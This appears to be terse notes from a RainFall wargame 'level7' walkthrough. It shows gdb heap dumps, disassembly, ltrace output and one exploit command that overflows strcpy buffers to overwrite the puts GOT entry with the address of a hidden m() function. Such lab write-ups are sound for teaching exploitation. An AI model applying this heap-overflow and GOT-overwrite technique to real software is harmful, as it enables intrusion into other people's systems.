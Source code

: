 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  
  after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



  
  
  
  
  
